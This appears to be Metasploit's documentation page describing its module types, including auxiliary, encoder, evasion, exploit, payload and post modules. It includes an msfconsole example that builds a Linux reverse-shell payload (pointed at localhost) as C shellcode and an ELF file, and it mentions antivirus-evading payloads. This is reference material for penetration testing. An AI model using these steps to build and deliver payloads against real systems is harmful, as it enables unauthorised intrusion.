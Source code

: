 ## Metasploit modules

There are currently {{ site.metasploit_total_module_count }} Metasploit modules:

{{ site.metasploit_nested_module_counts | module_tree: "All Modules", true }}

## Module types

### Auxiliary modules ({{ site.metasploit_module_counts["auxiliary"] }})

Auxiliary modules do not exploit a target, but can perform useful tasks such as:

- Administration - Modify, operate, or manipulate something on target machine
- Analyzing - Tools that perform analysis, mostly password cracking
- Gathering - Gather, collect, or enumerate data from a single target
- Denial of Service - Crash or slow a target machine or service
- Scanning - Scan targets for known vulnerabilities
- Server Support - Run Servers for common protocols such as SMB, FTP, etc

### Encoder modules ({{ site.metasploit_module_counts["encoder"] }})

Encoders take the raw bytes of a payload and run some sort of encoding algorithm, like bitwise XOR. These modules are useful for encoding
bad characters such as null bytes.

### Evasion modules ({{ site.metasploit_module_counts["evasion"] }})

Evasion modules give Framework users the ability to generate evasive payloads that aim to evade AntiVirus, such as Windows Defender,
without having to install external tools.

### Exploit modules ({{ site.metasploit_module_counts["exploit"] }})

Exploit modules are used to leverage vulnerabilities in a manner that allows the framework to execute arbitrary code.
The arbitrary code that is executed is referred to as the payload.

### Nop modules ({{ site.metasploit_module_counts["nop"] }})

Nop modules, short for 'No Operation', generate a sequence of 'No Operation' instructions that perform no side-effects.
NOPs are often used in conjunction with stack buffer overflows.

### Payloads modules ({{ site.metasploit_module_counts["payload"] }})

In the context of Metasploit exploit modules, payload modules encapsulate the arbitrary code (shellcode) that is executed
as the result of an exploit succeeding. This normally involves the creation of a Metasploit session, but may instead
execute code such as adding user accounts, or executing a simple pingback command that verifies that code execution was successful against a vulnerable target.

Payload modules can also be used individually to generate standalone executables, or shellcode for use within exploits:

```msf
msf payload(linux/x86/shell_reverse_tcp) > back
msf > use payload/linux/x86/shell_reverse_tcp
msf payload(linux/x86/shell_reverse_tcp) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf payload(linux/x86/shell_reverse_tcp) > set lport 4444
lport => 4444

# Generate a payload for use within C
msf payload(linux/x86/shell_reverse_tcp) > generate -f c

# Generate an ELF file for execution on Linux environments
msf payload(linux/x86/shell_reverse_tcp) > generate -f elf -o linux_shell
```

### Post modules ({{ site.metasploit_module_counts["post"] }})

These modules are useful after a machine has been compromised and a Metasploit session has been opened. They perform useful
tasks such as gathering, collecting, or enumerating data from a session.
